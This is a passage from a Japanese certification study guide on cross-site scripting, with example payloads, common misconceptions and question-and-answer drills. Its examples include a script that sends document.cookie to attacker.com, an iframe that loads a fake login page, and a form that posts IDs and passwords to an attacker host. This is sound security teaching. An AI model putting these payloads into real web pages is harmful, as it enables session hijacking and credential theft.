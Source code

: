 
## １－５　代表例（正答例・誤答例）

* **正答例（攻撃例）**

```html
<script>document.location='http://attacker.com/steal?c='+document.cookie;</script>
```

```html
<iframe src="http://attacker.com/fake_login.html"></iframe>
```

```html
<form action="http://attacker.com/steal">
  ユーザID:<input name="id">
  パスワード:<input type="password" name="pw">
</form>
```

* **誤答例（出題者が狙う誤解）**
  　「XSSはSQLを改ざんする攻撃である」→これはSQLインジェクション。

---

## １－６　よくある誤解と対処

* 誤解①：iframeは広告や動画埋め込み用だから安全 → 攻撃者サイトを埋め込めば悪用可能。
* 誤解②：action属性はフォーム送信だけだから問題ない → 攻撃者URLに変更されると情報漏えい。
* 誤解③：XSSはscriptタグだけ → iframeやimg、SVGなども使われる。

---

## １－７　一問一答

**問題１**
クロスサイトスクリプティング攻撃で `<script>` タグが使われる目的は何か。
**回答**
被害者のブラウザで任意のJavaScriptを実行させるため。
**解説**
セッションID窃取やDOM改ざんを狙う。

---

**問題２**
XSSで `<iframe>` タグが悪用される典型例は何か。
**回答**
偽のログイン画面や入力フォームを正規ページ内に表示すること。
**解説**
見た目は正規サイトでも、iframe内の入力情報は攻撃者に送られる。

---

**問題３**
XSSで `form` タグの `action` 属性を操作する目的は何か。
**回答**
ユーザが入力した情報を攻撃者のサーバに送信させるため。
**解説**
送信先URLが正規ドメインから攻撃者ドメインにすり替えられる。

---